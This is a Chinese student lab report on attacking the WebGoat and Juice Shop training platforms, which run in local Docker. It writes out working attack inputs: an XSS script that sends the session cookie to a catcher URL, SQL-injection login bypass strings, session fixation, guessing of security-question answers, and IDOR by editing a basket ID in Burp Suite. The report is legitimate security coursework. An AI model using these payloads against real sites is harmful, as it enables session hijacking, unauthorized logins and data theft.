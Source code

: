 # Web 应用漏洞攻防 #

## 实验目的 ##
- 了解常见 Web 漏洞训练平台；
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；

## 实验环境 ##
- WebGoat
- Juice Shop

## 实验要求 ##
- 每个实验环境完成不少于 5 种不同漏洞类型的漏洞利用练习

## 实验过程 ##
### 一、webgoat环境下的漏洞攻防 ###
### WebGoat环境搭建 ###
- 更新apt并安装docker-compose
  ![](imgs/1.png)
  ![](imgs/2.png)
- 将老师写好的文件git clone到该目录下
  ![](imgs/3.png)
- 安装docker-compose
  ![](imgs/4.png)
- 安装结束后利用命令docker ps查看，若容器都显示healthy，则表示安装成功
  ![](imgs/5.png)
- 打开浏览器输入127.0.0.1:8087/WebGoat/attack进入登陆页面
  ![](imgs/6.png)
  输入用户名密码即可登陆
  ![](imgs/7.png)
- 下载SwitchyOmega插件，设置代理，命名为burpsuite。因为我们只用一台虚拟机，是自己访问自己的容器环境的方式，所以注意要将Bypass List中的内容删除，否则在burpsuite中无法看到我们的请求。
  ![](imgs/8.png)
- 设置burpsuite的intercept is on，即相当于设置断点，方便调试、转发
  ![](imgs/9.png)

### 未验证的用户输入漏洞 ###
### 绕过html字段限制 ###
- burpsuite设置为intercept is on,回到我们将要提交数据的界面，点击submit,可以看到burpsuite拦截到了我们提交的信息。
  ![](imgs/10.png)
- 在burpsuite中对拦截到的信息的字段进行修改，并且点击forward将其提交上去，成功实现了绕过html字段的限制。
  ![](imgs/11.png)
  ![](imgs/12.png)

### XSS跨站脚本攻击 ###
- 实验目的：
 - 通过xss攻击获取受害者的cookie
 - 把cookie以参数的形式发送到目标服务器中

- 输入以下代码弹出页面cookie值
  <script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script>
  ![](imgs/13.png)
- 此时弹出了一个网页，其URL为
http://127.0.0.1:8087/WebGoat/catcherPROPERTY=yes&msg=JSESSIONID=4DC9F3FCD8CD3215786AE469A89699F9
此url中msg参数和之前弹窗弹出来的cookie相同，实验成功
  ![](imgs/14.png)
  ![](imgs/15.png)

### 脆弱访问控制 ###
- 原理：Web应用提供给用户密码找回功能，但是证明自己是该用户的方式过于简单，会造成威胁。
- 实验目的：通过类似穷举的方式突破身份证明问题，从而获取用户名密码
  ![](imgs/16.png)
  ![](imgs/17.png)
  ![](imgs/18.png)
- 以admin用户为例，试着猜测密码保护问题的答案，以获取admin的密码。在user name处输入admin，提交后出现密码保护问题，任意输入各种颜色的名称，多次尝试后发现green为正确答案。出现提示后，表示攻击成功，得到了密码。
  ![](imgs/19.png)

### 脆弱认证和会话管理 ###
- 原理：服务器通过每个用户的唯一的Session ID 来确认其合法性。如果用户已登录，并且授权他不必重新验证授权时，当他重新登录应用系统时，他的Session ID 依然是被认为合法的。
  ![](imgs/20.png)
- 在邮件正文的链接中中加入Session ID。
  ![](imgs/21.png)
- 点击提交后我是收件人Jane。点击弹出页面中的链接“Goat Hills Financial”。
  ![](imgs/22.png)
- 以用户名Jane，密码tarzan登陆。
  ![](imgs/23.png)
- 登陆成功。
  ![](imgs/24.png)
- 现在我是黑客Joe,点击链接登录到“Goat Hills Financial”页面。我们可以看到浏览器网址中我们的SID是“NOVALIDSESSION” 。
  ![](imgs/25.png)
- 将SID修改为最开始的邮件中填入的“WHATEVER”，实验成功 。
  ![](imgs/26.png)

### 注入缺陷 ###
- 初始登陆界面
  ![](imgs/27.png)
- 用Burp suite拦截提交，修改password内容为 ' or '1'='1。
  ![](imgs/28.png)
- 实现绕过密码登陆。
  ![](imgs/29.png)
  ![](imgs/30.png)

### 二、Juice Shop环境下的漏洞攻防 ###
### Juice shop环境搭建 ###
- 切换到juiceshop目录下，输入docker-compose up -d进行安装。
  ![](imgs/31.png)
- 利用命令docker ps查看，容器状态都显示healthy，表示安装成功。
  ![](imgs/32.png)
- 访问入口地址，进入JuiceShop环境界面。
  ![](imgs/33.png)
- 在源代码中搜索查找计分板。
  ![](imgs/34.png)
- 访问对应网址，寻找计分板成功。
  ![](imgs/35.png)

### sql注入缺陷 ###
- 按照之前WebGoat实验的sql原理，首先尝试email用 ' or '1'='1,密码随便填，发现无法登陆。
  ![](imgs/36.png)
- 在用户名部分输入'or 1=1--，密码随意填写，尝试成功。
  ![](imgs/37.png)
- 成功实现绕过密码登陆
  ![](imgs/38.png)

### 脆弱认证 ###
- 实验目的：通过忘记密码，更改用户密码。
- 输入Bjoern的owasp账户，密保问题是问最喜欢的宠物。
  ![](imgs/39.png)
- 通过互联网信息搜索，发现他有一只猫叫'Zaya'，尝试填入答案，并进行密码重置，成功实现密码重置。
  ![](imgs/40.png)

### 敏感数据曝光/遗忘信息 ###
- 实验目的：Forgotten Sales Backup。
- 在/#/about 页面中通过开发者工具找到【使用条款】的对应href=“/ftp/legal.md”。
  ![](imgs/41.png)
- 根据左下角的路径访问ftp链接。
  ![](imgs/42.png)
  ![](imgs/43.png)
- 点开文件可以看到机密文件内容，实现了获取。
  ![](imgs/44.png)
  ![](imgs/45.png)

### 脆弱访问控制 ###
- 实验目的：查看另一个用户的购物车。
- burpsuite设置为intercept is on，然后点击我的购物车，在burpsuite中可以看到我们抓到的包,第一行为GET /rest/basket/5 HTTP/1.1。
  ![](imgs/46.png)
- 将basket后的5改为6，点击forward
  ![](imgs/47.png)
- 实验成功
  ![](imgs/48.png)

## 心得与感悟 ##
- 遇到的困难与解决方法：
 - 用指令docker-compose up -d安装WebGoat环境时因卡住而中途终止了安装，结果重新安装时失败，提示“Couldnot connect to Docker daemon”云云，上网查资料无法解决，又考虑到实验才刚开始，于是删除虚拟机，重新建立虚拟机进行实验，最终成功。
 - 用指令docker-compose up -d安装Juice shop环境时遇见存储空间不够，清理了一些文件后成功。这是用虚拟机做实验以来第一次遇见空间不足，也算是积累了一定经验。
   ![](imgs/49.png)

- 收获:经过此次实验，我了解常见 Web 漏洞训练平台，了解 常见 Web 漏洞的基本原理，掌握了常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法。此外，我进一步加深了虚拟机的运用（源、网络、内存、ip、端口等）。
